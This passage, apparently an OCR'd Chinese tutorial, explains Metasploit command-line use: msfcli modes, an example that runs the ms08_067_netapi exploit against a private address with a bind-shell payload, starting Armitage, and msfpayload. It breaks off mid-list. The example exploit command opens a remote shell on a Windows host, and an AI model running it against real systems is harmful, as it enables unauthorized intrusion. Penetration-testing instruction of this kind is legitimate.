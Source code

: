 msfcli <exploit_name> <option=value> [mode]

```
mode:H（help）帮助

   S（summary）显示模块信息

    O（options）显示模块的可用选项

     A（advanced）显示高级选项   

I（ids）显示IDS EVASION 选项

     P（payload）显示此模块可用的payload

T（targets）显示可用targets

AC（action）显示可用actions

C（check）运行模块测试

   E（execute）执行选定的模块
```

### 模块使用示例
例子：ms08_067_netapi模块

```
msfcli windows/smb/ms08_067_netapi O    #查看可用选项
msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.111 P #查看可用payload
msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.111 PAYLOAD=windows/shell/bind_tcp E   #执行 （此处O、P 等参数也可以用小写）
```

### armitage使用
4、Armitage :MSF的一个图形接口

运行方式：

```
cd /opt/farmework/msf3/
armitage
```

### msf其他组件
5、MSF其他组件：

- MSFpayload工具：

用于生成shellcode，可生成C,Ruby，JaveScript，VB格式的shellcode。
帮助信息：

```
msfpayload –h
```
- MSFencode工具：
